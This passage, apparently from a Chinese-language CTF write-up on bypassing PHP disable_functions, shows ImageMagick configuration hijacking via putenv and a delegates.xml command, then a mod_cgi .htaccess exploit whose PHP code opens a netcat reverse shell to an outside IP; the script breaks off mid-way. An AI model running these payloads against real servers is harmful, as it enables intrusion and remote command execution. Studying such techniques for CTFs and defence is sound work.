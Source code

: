 ImageMagick 的配置文件位置与环境变量有关，那么结合 `putenv` 我们就可以控制 ImageMagick 的配置。接下来，我们需要做的就是寻找一些可以帮助我们执行命令的配置项。

`delegates.xml` 定义了 ImageMagick 处理各种文件类型的规则，构造 exp 如下：

```xml
<delegatemap>
    <delegate decode="ps:alpha" command="sh -c &quot;/readflag > /tmp/output&quot;"/>
</delegatemap>
```

Payload:

```php
putenv('MAGICK_CONFIGURE_PATH=/tmp/3accb9900a8be5421641fb31e6861f33');
$img = new Imagick('/tmp/3accb9900a8be5421641fb31e6861f33/1.ept');
```

### MAGICK_CODER_MODULE_PATH

> **MAGICK_CODER_MODULE_PATH** can permits the user to arbitrarily extend the image formats supported by ImageMagick by adding loadable coder modules from an preferred location rather than copying them into the ImageMagick installation directory

- [Document](https://www.imagemagick.org/script/resources.php#Environment%20Variables)

- [Link](https://github.com/m0xiaoxi/CTF_Web_docker/tree/master/TCTF2019/Wallbreaker_Easy)

## 0x08 mod_cgi

Require:

1. Apache + mod_cgi Allowed

2. .htaccess Allowed & Writeable

![](/assets/images/move/2019-11-20-10-49-54.png)

> 任何具有mime类型application/x-httpd-cgi或者被 cgi-script处理器(Apache 1.1或以后版本)处理的文件将被作为CGI脚本对待并由服务器运行, 它的输出将被返回给客户端。通过两种途径使文件成为CGI脚本，或者文件具有已由 AddType指令定义的扩展名，或者文件位于 ScriptAlias目录中。

exp（?checked=true）:

```php
<?php
$cmd = "nc -c '/bin/bash' 10.11.12.13 8888"; //command to be executed
$shellfile = "#!/bin/bash\n"; //using a shellscript
$shellfile .= "echo -ne \"Content-Type: text/html\\n\\n\"\n"; //header is needed, otherwise a 500 error is thrown when there is output
$shellfile .= "$cmd"; //executing $cmd
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ? $yes : $no) . "<br>\n";
}
if (!isset($_GET['checked']))
{
    @file_put_contents('.htaccess', "\nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed
    header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked
}
else
{
    $modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?
```